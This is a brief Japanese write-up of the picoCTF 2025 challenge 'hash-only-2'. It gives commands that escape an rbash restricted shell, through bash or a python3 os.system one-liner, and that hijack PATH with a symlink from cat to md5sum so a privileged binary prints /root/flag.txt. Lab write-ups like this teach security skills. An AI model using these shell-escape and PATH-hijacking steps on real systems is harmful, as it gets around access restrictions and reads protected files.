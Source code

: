 # picoCTF2025　hash-only-2

中身のファイルは hash-only-1と一緒

ただしPATH書き換えができなくなっている

rbash（特定の操作だけできるbash）なので、bashに変更する。今回はbashが使えるのでそれを使った

```
$ bash
$ export PATH=".:$PATH"
$ ln -s /usr/bin/cat md5sum
$ flaghasher
Computing the MD5 hash of /root/flag.txt.... 
```
python3を使ってもよい
```
python3 -c 'import os; os.system("/bin/bash")'
```